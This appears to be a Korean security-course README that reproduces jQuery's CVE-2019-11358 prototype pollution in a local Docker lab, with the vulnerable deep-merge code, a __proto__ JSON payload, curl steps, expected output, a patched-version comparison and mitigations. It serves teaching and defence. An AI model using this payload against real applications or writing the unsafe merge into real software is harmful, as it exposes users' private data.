


# CVE-2019-11358 | jQuery Prototype Pollution

> 화이트햇 스쿨 과제 — [최한두 (@doo513)](https://github.com/doo513)

<br/>

### 취약점 요약

CVE-2019-11358은 jQuery 3.4.0 미만 버전의 깊은 병합 함수 `jQuery.extend(true, ...)`에서 발생하는 Prototype Pollution 취약점입니다. 공격자가 제어하는 객체에 enumerable `__proto__` 속성이 포함되면 병합 과정에서 `Object.prototype`이 오염될 수 있으며, 이후 생성되는 일반 객체가 공격자가 삽입한 속성을 상속할 수 있습니다.

본 환경은 실제 jQuery 3.3.1 파일을 컨테이너 내부에서 `jsdom`으로 로드하고, 프로필 저장 서비스의 내보내기 과정에서 실제 `$.extend(true, ...)`를 실행합니다.

```text
악성 프로필 JSON 저장
→ jQuery 3.3.1의 $.extend(true, ...) 실행
→ Object.prototype.includePrivate 오염
→ 별도의 exportPolicy 객체가 includePrivate=true를 상속
→ 공개 프로필 응답에 비공개 정보 포함
```

| 항목 | 값 |
|---|---|
| 취약 버전 | jQuery 3.3.1 |
| 패치 비교 버전 | jQuery 3.4.0 |
| 취약점 유형 | Prototype Pollution |
| CVSS v3.1 | 6.1 Medium |
| CVSS Vector | `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N` |

<br/>

### 취약 조건

다음 조건이 함께 충족되어야 합니다.

1. jQuery 3.4.0 미만 버전을 사용합니다.
2. `$.extend(true, ...)` 형태의 깊은 병합을 수행합니다.
3. 공격자가 병합되는 객체의 내용을 제어할 수 있습니다.
4. 입력 객체에 enumerable own property인 `__proto__`가 포함됩니다.
5. 병합 전에 `__proto__`, `constructor`, `prototype` 등의 위험 키를 제거하지 않습니다.
6. 오염된 프로토타입의 상속값이 권한, 정책 또는 출력 여부를 결정하는 코드에 사용됩니다.

본 환경에서 취약한 병합 지점은 다음과 같습니다.

```js
const mergedProfile = $.extend(
  true,
  {},
  DEFAULT_PROFILE,
  sourceProfile
);
```

병합과 별도로 생성되는 정책 객체가 오염된 값을 상속하면서 실제 영향이 발생합니다.

```js
const exportPolicy = {};

if (exportPolicy.includePrivate === true) {
  output.private = { ...PRIVATE_PROFILE };
}
```

<br/>

### 환경 구성

```text
CVE-2019-11358/
├── Dockerfile
├── compose.yaml
├── server.mjs
├── package.json
├── package-lock.json
├── poc.json
├── poc.sh
├── public/
│   ├── index.html
│   └── app.js
├── vendor/
│   ├── jquery-3.3.1.min.js
│   ├── jquery-3.4.0.min.js
│   └── LICENSE-jquery.txt
└── images/
    ├── 01-poc-request.png
    └── 02-pollution-result.png
```

Dockerfile은 취약 jQuery 파일을 외부 취약 이미지에서 가져오지 않고 저장소의 `vendor/` 디렉터리에서 복사합니다. 빌드 중 SHA-256 값을 확인하여 선택된 jQuery 파일이 변경되지 않았는지 검증합니다.

서비스는 호스트의 `127.0.0.1:3000`에만 바인딩됩니다.

<br/>

### 환경 실행

프로젝트 디렉터리에서 다음 명령을 실행합니다.

```sh
docker compose up --build -d
```

컨테이너 상태와 로그를 확인합니다.

```sh
docker compose ps
docker compose logs
```

브라우저 접속 주소:

```text
http://127.0.0.1:3000
```

환경 종료:

```sh
docker compose down --remove-orphans
```

<br/>

### 재현 절차 및 PoC 코드

#### 1. 실습 상태 초기화

```sh
curl -sS -X POST http://127.0.0.1:3000/api/reset
```

#### 2. `__proto__`가 포함된 프로필 저장

```sh
curl -sS -X POST http://127.0.0.1:3000/api/profile \
  -H 'Content-Type: application/json' \
  --data-binary @poc.json
```

`poc.json`의 내용은 다음과 같습니다.

```json
{
  "name": "guest",
  "bio": "public profile",
  "__proto__": {
    "includePrivate": true,
    "polluted": "CVE-2019-11358"
  }
}
```

응답의 `sourceHasOwnProto: true`는 `JSON.parse()`로 생성된 입력 객체가 `__proto__`를 own property로 가지고 있음을 뜻합니다.



#### 3. 취약한 깊은 병합 실행

```sh
curl -sS http://127.0.0.1:3000/api/profile/export
```

전체 PoC는 다음 명령으로도 실행할 수 있습니다.

```sh
chmod +x poc.sh
./poc.sh
```

<br/>

### 실행 결과

jQuery 3.3.1 환경에서는 다음과 같은 결과가 반환됩니다.

```json
{
  "result": "VULNERABLE",
  "jqueryVersion": "3.3.1",
  "privateDataExposed": true,
  "exportedProfile": {
    "name": "guest",
    "bio": "public profile",
    "private": {
      "email": "guest@example.local",
      "reviewNote": "internal-only: 신규 계정 검토 필요"
    }
  },
  "evidence": {
    "sourceHasOwnProto": true,
    "before": {
      "objectPrototypeIncludePrivate": null
    },
    "after": {
      "objectPrototypeIncludePrivate": true,
      "objectPrototypePolluted": "CVE-2019-11358",
      "exportPolicyHasOwnIncludePrivate": false,
      "exportPolicyInheritedIncludePrivate": true
    }
  }
}
```



핵심 성공 기준은 다음과 같습니다.

```text
result = "VULNERABLE"
Object.prototype.includePrivate = true
Object.prototype.polluted = "CVE-2019-11358"
exportPolicyHasOwnIncludePrivate = false
exportPolicyInheritedIncludePrivate = true
privateDataExposed = true
```

`exportPolicy` 객체에는 `includePrivate` own property가 없습니다. 그런데도 해당 값이 `true`로 평가된 것은 오염된 `Object.prototype`에서 값을 상속했기 때문입니다. 따라서 결과는 단순한 입력값 반영이 아니라 Prototype Pollution으로 별도의 정책 객체 동작이 변경된 사례입니다.

<br/>

### 패치 버전 비교

기존 환경을 종료한 뒤 jQuery 3.4.0으로 다시 빌드합니다.

```sh
docker compose down --remove-orphans
JQUERY_VERSION=3.4.0 docker compose up --build -d
./poc.sh
```

패치 버전에서는 동일 입력을 사용해도 `Object.prototype`이 오염되지 않으며 결과는 `NOT_VULNERABLE`이 됩니다.

```text
Object.prototype.includePrivate = undefined
exportPolicyHasOwnIncludePrivate = false
exportPolicyInheritedIncludePrivate = undefined
privateDataExposed = false
```

비교 후 종료합니다.

```sh
JQUERY_VERSION=3.4.0 docker compose down --remove-orphans
```

<br/>

### 대응 방안

1. jQuery를 3.4.0 이상으로 업그레이드합니다.
2. 외부 JSON을 재귀적으로 병합하기 전에 `__proto__`, `constructor`, `prototype` 키를 거부합니다.
3. 사용자 입력은 허용 목록 기반으로 필요한 필드만 추출합니다.
4. 보안 정책 객체에서 프로토타입 상속값을 신뢰하지 않고 own property를 명시적으로 검사합니다.
5. 데이터 객체와 권한·정책 객체를 동일한 병합 흐름에 포함하지 않습니다.
6. 필요한 경우 정책 맵은 `Object.create(null)`로 생성하여 일반 프로토타입 체인을 제거합니다.

<br/>

### 평가

- **Risk Score: 6.1 / 10.0**  
  NVD CVSS v3.1 점수를 기준으로 하며, 네트워크를 통한 입력이 가능하고 기밀성 및 무결성에 제한적인 영향을 줄 수 있습니다.

- **Reproducibility: 95%**  
  Docker Compose 한 번으로 환경을 구성하고, 저장소에 포함된 `poc.json`과 `poc.sh`를 그대로 실행하여 취약 버전과 패치 버전을 비교할 수 있도록 구성했습니다.

<br/>

### 참고 자료

- [NVD — CVE-2019-11358](https://nvd.nist.gov/vuln/detail/CVE-2019-11358)
- [jQuery 3.4.0 Released](https://blog.jquery.com/2019/04/10/jquery-3-4-0-released/)
- [jQuery Fix Commit](https://github.com/jquery/jquery/commit/753d591aea698e57d6db58c9f722cd0808619b1b)
- [jQuery.extend() API](https://api.jquery.com/jquery.extend/)
